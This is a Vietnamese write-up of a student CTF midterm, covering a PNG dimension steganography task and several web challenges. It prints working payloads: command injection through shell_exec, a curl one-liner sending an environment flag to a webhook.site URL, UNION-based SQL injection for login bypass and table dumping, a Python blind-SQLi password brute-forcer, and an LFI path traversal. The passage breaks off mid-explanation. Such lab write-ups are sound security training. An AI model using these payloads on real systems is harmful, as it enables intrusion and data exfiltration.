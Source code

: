 # midterm-test-W1-writeup

## [Forensics] DIMENSION

### Challenge
> Yet Another Stego Challenge<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/657606fdb5faa98550bbdb665f794a44/attachment.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwMH0.ZLzsTA.3lJIkLTyxMF8Pd1n5uvdClmMM6A)

### Solution
- Ở đây đề bài cho 1 file ảnh với kích thước `0x0` kết hợp cùng tên đề bài mình đoán sẽ sửa 8 byte chiều dài và rộng để khôi phục lại bức ảnh ban đầu.
- Tool mình sử dụng ở đây là [png-dimensions-bruteforcer](https://github.com/cjharris18/png-dimensions-bruteforcer), điều chỉnh range bruteforce lên xíu ta sẽ thu được kết quả.
![](2023-07-23-16-14-05.png)
![](2023-07-23-16-14-49.png)
```
Flag: W1{d1meNsiOn_i5_cO0l_r19ht?}
```

## [Web] HEAD1

### Challenge
> [http://45.122.249.68:20018/](http://45.122.249.68:20018/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/8f80fff2c153912fc5322388b2b69332/head1.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNn0.ZLyUUw.qKuUDVqRmiQZwgtJUrvXOP3X2ZQ)

### Solution
```php
<?php

if (strpos($_SERVER['REQUEST_URI'], '_')) {
    die("no no no");
}

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_POST['input_data']);
    echo $output;
}

show_source(__FILE__);
```
- Ở bài này source code khá đơn giản đầu tiên là mình phải bypass được ký tự `_` trong `input_data`, thì ở đây đơn giản ta chỉ cần **URL encode** ký tự `_` sẽ bypass được điều kiện đầu tiên.
- Sang với điều kiện thứ 2, trong đầu mình đặt ra 1 câu hỏi là làm sao có thể truyền cùng lúc data cho `$_GET` và `$_POST`, giải pháp là ta sẽ sử dụng lệnh `curl` với option `-d` hoặc có thể gửi trực tiếp request thông qua `BurpSuite`

![](2023-07-23-10-06-39.png)
- Câu lệnh hoàn chỉnh như sau: `curl -d input_data=%3Bls%20%2F http://45.122.249.68:20018/\?input%5fdata\=`
- Request sẽ được gửi dưới dạng như sau
```http
POST /?input%5fdata= HTTP/1.1
Host: 45.122.249.68:20018
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

input_data=%3Bls%20%2F
```
- Kết quả nhận được là
![](2023-07-23-10-14-34.png)

```
Flag: W1{ez_head1_huh}
```

## [Web] HEAD2

### Challenge
> [http://45.122.249.68:20019/](http://45.122.249.68:20019/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/a6750a769d391094b4fa05b349cea45e/head2.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNH0.ZLyglw.YagF13lszTqadAdn95aq2a9FKK8)

### Solution
```php
<?php

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_GET['input_data']);
    // echo $output;
}

show_source(__FILE__);
```
- Ở bài này thì ta truyền vào được `OS Command` nhưng câu hỏi đặt ra là *Làm sao để đọc được kết quả ra đây?*
- Thì ở đây đầu tiên ta kiểm tra thấy sever không chặn kết nối ra ngoài, vậy nên giải pháp ở đây sẽ là đọc file và gửi nó ra ngoài Internet và bắt lại là xong.
- Payload: `; echo $FLAG | curl https://webhook.site/bb145fec-1626-4da3-b695-7cc86b11e295 --data-binary @-;`

```
Flag: W1{webhook_not_so_bad_huh?}
```

## [Web] DEJAVU

### Challenge
> Bài này quen quen 🐳 <br/>
> [http://45.122.249.68:20017/](http://45.122.249.68:20017/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/e68f2b74721ee7ce9863f1b983508161/dejavu.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwM30.ZLykUA.6cORsdHqk08qta_RVa7jUtuBp2s)

### Solution
- Bài này khá tương tự với 1 bài đã giải trong traning, cơ bản **flag** gồm 3 phần nằm hết ở database.
![](2023-07-23-10-56-15.png)
- Sơ qua về trang web thì ở trang `index.php` sẽ cung cấp cho ta 1 form login và qua file `login.php` khi ta đăng nhập thành công sever sẽ redirect qua `/news.php`. Ở dòng 13 ta có thể thực hiện **SQL Injection** để bypass qua phần login.
![](2023-07-23-10-58-50.png)
- Có 1 chú ý là ở file `news.php`, sever sẽ kiểm tra xem `$_SESSION['username']` của chúng ta có phải là `admin` hay không nên payload để **SQLi** phần login sẽ như sau:
    - `username`: `admin`
    - `password`: `' UNION SELECT username,password FROM users WHERE username='admin`
- Ở `/news.php` có 1 đoạn code khá *nhạy cảm* giúp chúng ta có thể truyền vào biến `$_GET['name']` qua đó có thể đọc nội dung từ database.
![](2023-07-23-11-04-09.png)
- Payload cho **Part 1**: `' UNION SELECT flag, flag FROM secret -- `
![](2023-07-23-11-07-36.png)
- Ở **Part 2** thì flag nằm trong 1 bảng ta chưa biết tên nên ta có thể sử dụng payload `' UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS -- ` để in ra thông tin bao gồm tên các bảng và cột.
![](2023-07-23-11-09-50.png)
- Payload cho **Part 2**: `' UNION SELECT flag_5959595959408498_5959595959408498, flag_5959595959408498_5959595959408498 FROM secret_8489498498112318_8489498498112318 -- `
![](2023-07-23-11-10-34.png)
- Ở **Part 3** thì flag là mật khẩu của tài khoản `admin`, ở đây cách để khai thác sẽ là `bruteforce`. Xoá cookie đang có để reset `$_SESSION` rồi bruteforce password từ trang `login.php`. Script bruteforce như sau: *(ban đầu mình bruteforce theo kiểu truyền thống thì độ phức tạp khá lớn, hết giải có người anh chỉ điểm nên mình áp dụng binsearch giúp giảm độ phức tạp đi khá nhiều)*
```py
import requests

# charset = string.ascii_letters + string.digits + string.punctuation
url = "http://45.122.249.68:20017/login.php"


def check(pos, operator, mid):
    data = {
        "username": f"admin' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username = 'admin'), {pos}, 1)) {operator} {mid} -- ",
        "password": "abc",
    }
    r = requests.post(url, data=data)
    return r.url == "http://45.122.249.68:20017/news.php"


def bin_search(pos):
    # Giới hạn trên mình tự tăng bằng tay vì trong flag có thêm icon nên mình sẽ tăng từ từ.
    l, h = 0, 262144
    while h - l > 1:
        m = l + h >> 1
        if check(pos, ">", m):
            l = m
        else:
            h = m
    return chr(h) if check(pos, "=", h) else None


passwd = ""
found = False
while not found:
    found = True
    c = bin_search(len(passwd) + 1)
    if c:
        passwd += c
        found = False
        print("Password: ", passwd)
        if c == "}":
            break
```
![](2023-07-23-15-58-12.png)
```
Flag: W1{part1_part2_part③_ⓓⓔⓙⓐⓥⓤ_福🐳😁}
```

## [Web] SIMPLE STUFF

### Challenge
> Trang báo này đăng nhiều tin hay phết, dù là toàn gen từ ChatGPT... nhưng mà khoan đã, hình như trang web này có vấn đề gì đó... Bạn có thể tìm ra vấn đề của trang web này không? <br/>
> [http://45.122.249.68:20020/](http://45.122.249.68:20020/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/17d67af31ce59c474ee7f8f8aabc8a39/simple_stuff.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjExNX0.ZL0AJQ.SqIYeU2j6t4AtHEcFTfgnBPKqg8)

### Solution
- Sơ qua về source code thì ở `Dockerfile` của backend thì ta thấy flag nằm ở `/flag.txt`, `Ctrl+Shift+F` thì thấy nội dung của file được sử dụng ở `admin/index.php` vậy thì trước tiên ta cần truy cập được endpoint này.
- Ở file `index.php` của backend ta có thể thấy `$_GET["id"]` được nối chuỗi trực tiếp vào `articles/news` và đoạn code còn sử dụng 1 hàm khá nguy hiểm là `include()`
![](2023-07-23-17-44-00.png)
 nên ta có thể `LFI` đến endpoint `admin/index.php` thông qua payload `?id=../../../admin/index.php`
 ![](2023-07-23-17-46-46.png)
 - Giải thích sơ qua về hàm `do_xor`, hàm này thực hiện `XOR` 2 chuỗi nếu `$str_2` có độ dài chưa bằng `$str_1` sẽ thêm `=` vào cuối `$str_2` tới khi 2 chuỗi bằng độ dài. Hàm thực hiện `XOR` lần lượt từng ký tự và nối vào `$result` và dùng `-` để ngăn cách giữa các kết quả.
